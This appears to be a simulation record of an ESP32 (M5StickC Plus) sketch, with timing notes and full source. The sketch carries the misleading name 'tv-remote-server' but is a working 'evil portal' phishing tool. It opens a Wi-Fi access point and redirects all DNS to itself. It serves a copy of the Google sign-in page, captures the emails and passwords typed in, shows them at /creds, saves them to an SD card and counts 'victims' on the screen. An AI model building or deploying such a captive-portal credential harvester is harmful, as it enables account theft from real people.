
A sketch run on a simulated ESP32-S3. On the bench: 240×135 colour display, output pins drawn as LEDs (lit = HIGH). Dashed ring = blinking. The inputs (shaded band) are chosen by the test bench.

Above: at 1.3 s.
1.4 s: HTTP request GET /post received
At 2.3 s:

4.4 s: HTTP request GET /post received
At 4.8 s:

At 12.9 s:

Timing chart, 0 to 13.4 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.4 s, GPIO 10 (GPIO_LED): alternates HIGH for 0.50 s and LOW for 0.50 s, starting after 0.09 s; the display: first changes at once (image 1 shows a later state)
- after the input at 4.4 s, the display: first changes after 2.2 s (image 3 shows a later state)

The sketch:

tv-remote-server.ino
```cpp
//#include <M5StickCPlus2.h>
#include <Ethernet.h>
#include <WiFiClient.h>
#include <WiFiAP.h>
#include <WiFi.h>
#include <DNSServer.h>
#include <WebServer.h>

// #define M5STICKCPLUS
#define M5STICKCPLUS

#if defined(M5STICKCPLUS) && defined(M5CARDPUTER)
#error "Please define only one platform: M5STICKCPLUS or M5CARDPUTER"
#endif

#if defined(M5STICKCPLUS)
#define DISPLAY M5.Lcd
// #define SPEAKER M5.Beep
#define HAS_LED 10  // Number is equivalent to GPIO
#define GPIO_LED 10
// #define HAS_SDCARD
#define SD_CLK_PIN 0
#define SD_MISO_PIN 36  //25
#define SD_MOSI_PIN 26
// #define SD_CS_PIN
#endif

#if defined(M5CARDPUTER)
#define DISPLAY M5Cardputer.Display
#define SPEAKER M5Cardputer.Speaker
#define KB M5Cardputer.Keyboard
#define HAS_SDCARD
#define SD_CLK_PIN 40
#define SD_MISO_PIN 39
#define SD_MOSI_PIN 14
#define SD_CS_PIN 12
#endif

#if defined(HAS_SDCARD)
#include <FS.h>
#include <SD.h>
#include <SPI.h>
#endif

#if defined(M5STICKCPLUS)
#include <M5StickCPlus2.h>
#elif defined(M5CARDPUTER)
#include <M5Cardputer.h>
#endif

#define DEFAULT_AP_SSID_NAME "M5 Stick Remote Server"
#define DEFAULT_AP_SSID_PASSWORD "12345"
#define SD_CREDS_PATH "/evil-portal-creds.txt"
// #define LANGUAGE_EN_US
#define LANGUAGE_PT_BR

#if defined(LANGUAGE_EN_US) && defined(LANGUAGE_PT_BR)
#error "Please define only one language: LANGUAGE_EN_US or LANGUAGE_PT_BR"
#endif

#if defined(LANGUAGE_EN_US)
#define LOGIN_TITLE "Sign in"
#define LOGIN_SUBTITLE "Use your Google Account"
#define LOGIN_EMAIL_PLACEHOLDER "Email"
#define LOGIN_PASSWORD_PLACEHOLDER "Password"
#define LOGIN_MESSAGE "Please log in to browse securely."
#define LOGIN_BUTTON "Next"
#define LOGIN_AFTER_MESSAGE "Please wait a few minutes. Soon you will be able to access the internet."
#elif defined(LANGUAGE_PT_BR)
#define LOGIN_TITLE "Fazer login"
#define LOGIN_SUBTITLE "Use sua Conta do Google"
#define LOGIN_EMAIL_PLACEHOLDER "E-mail"
#define LOGIN_PASSWORD_PLACEHOLDER "Senha"
#define LOGIN_MESSAGE "Por favor, faça login para navegar de forma segura."
#define LOGIN_BUTTON "Avançar"
#define LOGIN_AFTER_MESSAGE "Por favor, aguarde alguns minutos. Em breve você poderá acessar a internet."
#endif

int totalCapturedCredentials = 0;
int previousTotalCapturedCredentials = -1;  // stupid hack but wtfe
String capturedCredentialsHtml = "";
bool sdcardMounted = false;
String apSsidName = String(DEFAULT_AP_SSID_NAME);
String apSsidPassword = String(DEFAULT_AP_SSID_PASSWORD);
#if defined(HAS_SDCARD)
SPIClass* sdcardSPI = NULL;
SemaphoreHandle_t sdcardSemaphore;
#endif

// Init System Settings
const byte HTTP_CODE = 200;
const byte DNS_PORT = 53;
const byte TICK_TIMER = 1000;
IPAddress AP_GATEWAY(172, 0, 0, 1);  // Gateway
unsigned long bootTime = 0, lastActivity = 0, lastTick = 0, tickCtr = 0;
DNSServer dnsServer;
WebServer webServer(80);

void setup() {
  setupDeviceSettings();
  setupWiFi();
  setupWebServer();
  setupSdCard();

  bootTime = lastActivity = millis();
}

void setupDeviceSettings() {
  Serial.begin(115200);
  while (!Serial && millis() < 1000)
    ;

#if defined(M5STICKCPLUS)
  M5.begin();
  DISPLAY.setRotation(3);
#elif defined(M5CARDPUTER)
  M5Cardputer.begin();
  DISPLAY.setRotation(1);
#endif

#if defined(HAS_LED)
  pinMode(GPIO_LED, OUTPUT);
  digitalWrite(GPIO_LED, HIGH);
#endif

  DISPLAY.fillScreen(BLACK);
  DISPLAY.setSwapBytes(true);
  DISPLAY.setTextSize(2);
}

bool setupSdCard() {
#if defined(HAS_SDCARD)
  sdcardSemaphore = xSemaphoreCreateMutex();
  sdcardSPI = new SPIClass(FSPI);
  sdcardSPI->begin(SD_CLK_PIN, SD_MISO_PIN, SD_MOSI_PIN, SD_CS_PIN);

  delay(10);

  if (!SD.begin(SD_CS_PIN, *sdcardSPI)) {
    Serial.println("Failed to mount SDCARD");
    return false;
  } else {
    Serial.println("SDCARD mounted successfully");
    sdcardMounted = true;
    return true;
  }
#endif
}

void setupWiFi() {
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(AP_GATEWAY, AP_GATEWAY, IPAddress(255, 255, 255, 0));
  WiFi.softAP(apSsidName, apSsidPassword);
}

void setupWebServer() {
  dnsServer.start(DNS_PORT, "*", AP_GATEWAY);  // DNS spoofing (Only HTTP)

  webServer.on("/post", []() {
    totalCapturedCredentials = totalCapturedCredentials + 1;

    webServer.send(HTTP_CODE, "text/html", index_POST());

#if defined(M5STICKCPLUS)
    //SPEAKER.tone(4000);
#elif defined(M5CARDPUTER)
      SPEAKER.tone(4000, 50);
#endif

    DISPLAY.print("Victim Login");

    delay(50);

#if defined(M5STICKCPLUS)
    //SPEAKER.mute();
#endif

    DISPLAY.fillScreen(BLACK);

#if defined(HAS_LED)
    blinkLed();
#endif
  });

  webServer.on("/creds", []() {
    webServer.send(HTTP_CODE, "text/html", creds_GET());
  });

  webServer.on("/clear", []() {
    webServer.send(HTTP_CODE, "text/html", clear_GET());
  });

  webServer.onNotFound([]() {
    lastActivity = millis();
    webServer.send(HTTP_CODE, "text/html", index_GET());
  });

  webServer.begin();
}

void loop() {
  if ((millis() - lastTick) > TICK_TIMER) {

    lastTick = millis();

    if (totalCapturedCredentials != previousTotalCapturedCredentials) {
      previousTotalCapturedCredentials = totalCapturedCredentials;

      printHomeToScreen();
    }
  }

  dnsServer.processNextRequest();
  webServer.handleClient();
}

void printHomeToScreen() {
  DISPLAY.fillScreen(BLACK);
  DISPLAY.setSwapBytes(true);
  DISPLAY.setTextSize(2);
  DISPLAY.setTextColor(TFT_RED, TFT_BLACK);
  DISPLAY.setCursor(0, 10);
  DISPLAY.print("EVIL PORTAL");
  DISPLAY.setTextColor(TFT_GREEN, TFT_BLACK);
  DISPLAY.setCursor(0, 35);
  DISPLAY.print("WiFi IP: ");
  DISPLAY.println(AP_GATEWAY);
  DISPLAY.printf("SSID: ");  //, apSsidName);
  DISPLAY.print(apSsidName);
  DISPLAY.println("");
  DISPLAY.printf("Victim Count: %d\n", totalCapturedCredentials);
}

String getInputValue(String argName) {
  String a = webServer.arg(argName);
  a.replace("<", "&lt;");
  a.replace(">", "&gt;");
  a.substring(0, 200);
  return a;
}

String getHtmlContents(String body) {
  String html =
    "<!DOCTYPE html>"
    "<html>"
    "<head>"
    "  <title>"
    + apSsidName + "</title>"
                   "  <meta charset='UTF-8'>"
                   "  <meta name='viewport' content='width=device-width, initial-scale=1.0'>"
                   "  <style>a:hover{ text-decoration: underline;} body{ font-family: Arial, sans-serif; align-items: center; justify-content: center; background-color: #FFFFFF;} input[type='text'], input[type='password']{ width: 100%; padding: 12px 10px; margin: 8px 0; box-sizing: border-box; border: 1px solid #cccccc; border-radius: 4px;} .container{ margin: auto; padding: 20px;} .logo-container{ text-align: center; margin-bottom: 30px; display: flex; justify-content: center; align-items: center;} .logo{ width: 40px; height: 40px; fill: #FFC72C; margin-right: 100px;} .company-name{ font-size: 42px; color: black; margin-left: 0px;} .form-container{ background: #FFFFFF; border: 1px solid #CEC0DE; border-radius: 4px; padding: 20px; box-shadow: 0px 0px 10px 0px rgba(108, 66, 156, 0.2);} h1{ text-align: center; font-size: 28px; font-weight: 500; margin-bottom: 20px;} .input-field{ width: 100%; padding: 12px; border: 1px solid #BEABD3; border-radius: 4px; margin-bottom: 20px; font-size: 14px;} .submit-btn{ background: #1a73e8; color: white; border: none; padding: 12px 20px; border-radius: 4px; font-size: 16px;} .submit-btn:hover{ background: #5B3784;} .containerlogo{ padding-top: 25px;} .containertitle{ color: #202124; font-size: 24px; padding: 15px 0px 10px 0px;} .containersubtitle{ color: #202124; font-size: 16px; padding: 0px 0px 30px 0px;} .containermsg{ padding: 30px 0px 0px 0px; color: #5f6368;} .containerbtn{ padding: 30px 0px 25px 0px;} @media screen and (min-width: 768px){ .logo{ max-width: 80px; max-height: 80px;}} </style>"
                   "</head>"
                   "<body>"
                   "  <div class='container'>"
                   "    <div class='logo-container'>"
                   "      <?xml version='1.0' standalone='no'?>"
                   "      <!DOCTYPE svg PUBLIC '-//W3C//DTD SVG 20010904//EN' 'http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd'>"
                   "    </div>"
                   "    <div class=form-container>"
                   "      <center>"
                   "        <div class='containerlogo'><svg viewBox='0 0 75 24' width='75' height='24' xmlns='http://www.w3.org/2000/svg' aria-hidden='true' class='BFr46e xduoyf'><g id='qaEJec'><path fill='#ea4335' d='M67.954 16.303c-1.33 0-2.278-.608-2.886-1.804l7.967-3.3-.27-.68c-.495-1.33-2.008-3.79-5.102-3.79-3.068 0-5.622 2.41-5.622 5.96 0 3.34 2.53 5.96 5.92 5.96 2.73 0 4.31-1.67 4.97-2.64l-2.03-1.35c-.673.98-1.6 1.64-2.93 1.64zm-.203-7.27c1.04 0 1.92.52 2.21 1.264l-5.32 2.21c-.06-2.3 1.79-3.474 3.12-3.474z'></path></g><g id='YGlOvc'><path fill='#34a853' d='M58.193.67h2.564v17.44h-2.564z'></path></g><g id='BWfIk'><path fill='#4285f4' d='M54.152 8.066h-.088c-.588-.697-1.716-1.33-3.136-1.33-2.98 0-5.71 2.614-5.71 5.98 0 3.338 2.73 5.933 5.71 5.933 1.42 0 2.548-.64 3.136-1.36h.088v.86c0 2.28-1.217 3.5-3.183 3.5-1.61 0-2.6-1.15-3-2.12l-2.28.94c.65 1.58 2.39 3.52 5.28 3.52 3.06 0 5.66-1.807 5.66-6.206V7.21h-2.48v.858zm-3.006 8.237c-1.804 0-3.318-1.513-3.318-3.588 0-2.1 1.514-3.635 3.318-3.635 1.784 0 3.183 1.534 3.183 3.635 0 2.075-1.4 3.588-3.19 3.588z'></path></g><g id='e6m3fd'><path fill='#fbbc05' d='M38.17 6.735c-3.28 0-5.953 2.506-5.953 5.96 0 3.432 2.673 5.96 5.954 5.96 3.29 0 5.96-2.528 5.96-5.96 0-3.46-2.67-5.96-5.95-5.96zm0 9.568c-1.798 0-3.348-1.487-3.348-3.61 0-2.14 1.55-3.608 3.35-3.608s3.348 1.467 3.348 3.61c0 2.116-1.55 3.608-3.35 3.608z'></path></g><g id='vbkDmc'><path fill='#ea4335' d='M25.17 6.71c-3.28 0-5.954 2.505-5.954 5.958 0 3.433 2.673 5.96 5.954 5.96 3.282 0 5.955-2.527 5.955-5.96 0-3.453-2.673-5.96-5.955-5.96zm0 9.567c-1.8 0-3.35-1.487-3.35-3.61 0-2.14 1.55-3.608 3.35-3.608s3.35 1.46 3.35 3.6c0 2.12-1.55 3.61-3.35 3.61z'></path></g><g id='idEJde'><path fill='#4285f4' d='M14.11 14.182c.722-.723 1.205-1.78 1.387-3.334H9.423V8.373h8.518c.09.452.16 1.07.16 1.664 0 1.903-.52 4.26-2.19 5.934-1.63 1.7-3.71 2.61-6.48 2.61-5.12 0-9.42-4.17-9.42-9.29C0 4.17 4.31 0 9.43 0c2.83 0 4.843 1.108 6.362 2.56L14 4.347c-1.087-1.02-2.56-1.81-4.577-1.81-3.74 0-6.662 3.01-6.662 6.75s2.93 6.75 6.67 6.75c2.43 0 3.81-.972 4.69-1.856z'></path></g></svg></div>"
                   "      </center>"
                   "      <div style='min-height: 150px'>"
    + body + "      </div>"
             "    </div>"
             "  </div>"
             "</body>"
             "</html>";
  return html;
}

String creds_GET() {
  return getHtmlContents("<ol>" + capturedCredentialsHtml + "</ol><br><center><p><a style=\"color:blue\" href=/>Back to Index</a></p><p><a style=\"color:blue\" href=/clear>Clear passwords</a></p></center>");
}

String index_GET() {
  String loginTitle = String(LOGIN_TITLE);
  String loginSubTitle = String(LOGIN_SUBTITLE);
  String loginEmailPlaceholder = String(LOGIN_EMAIL_PLACEHOLDER);
  String loginPasswordPlaceholder = String(LOGIN_PASSWORD_PLACEHOLDER);
  String loginMessage = String(LOGIN_MESSAGE);
  String loginButton = String(LOGIN_BUTTON);

  return getHtmlContents("<center><div class='containertitle'>" + loginTitle + " </div><div class='containersubtitle'>" + loginSubTitle + " </div></center><form action='/post' id='login-form'><input name='email' class='input-field' type='text' placeholder='" + loginEmailPlaceholder + "' required><input name='password' class='input-field' type='password' placeholder='" + loginPasswordPlaceholder + "' required /><div class='containermsg'>" + loginMessage + "</div><div class='containerbtn'><button id=submitbtn class=submit-btn type=submit>" + loginButton + " </button></div></form>");
}

String index_POST() {
  String email = getInputValue("email");
  String password = getInputValue("password");
  capturedCredentialsHtml = "<li>Email: <b>" + email + "</b></br>Password: <b>" + password + "</b></li>" + capturedCredentialsHtml;

#if defined(HAS_SDCARD)
  appendToFile(SD, SD_CREDS_PATH, String(email + " = " + password).c_str());
#endif

    return getHtmlContents(LOGIN_AFTER_MESSAGE);
}

String clear_GET() {
  String email = "<p></p>";
  String password = "<p></p>";
  capturedCredentialsHtml = "<p></p>";
  totalCapturedCredentials = 0;
  return getHtmlContents("<div><p>The credentials list has been reset.</div></p><center><a style=\"color:blue\" href=/creds>Back to capturedCredentialsHtml</a></center><center><a style=\"color:blue\" href=/>Back to Index</a></center>");
}

#if defined(HAS_LED)

void blinkLed() {
  int count = 0;

  while (count < 5) {
    digitalWrite(GPIO_LED, LOW);
    delay(500);
    digitalWrite(GPIO_LED, HIGH);
    delay(500);
    count = count + 1;
  }
}

#endif

#if defined(HAS_SDCARD)

void appendToFile(fs::FS& fs, const char* path, const char* text) {
  if (xSemaphoreTake(sdcardSemaphore, portMAX_DELAY) == pdTRUE) {
    File file = fs.open(path, FILE_APPEND);

    if (!file) {
      Serial.println("Failed to open file for appending");
      xSemaphoreGive(sdcardSemaphore);
      return;
    }

    Serial.printf("Appending text '%s' to file: %s\n", text, path);

    if (file.println(text)) {
      Serial.println("Text appended");
    } else {
      Serial.println("Append failed");
    }

    file.close();

    xSemaphoreGive(sdcardSemaphore);
  }
}

#endif
```
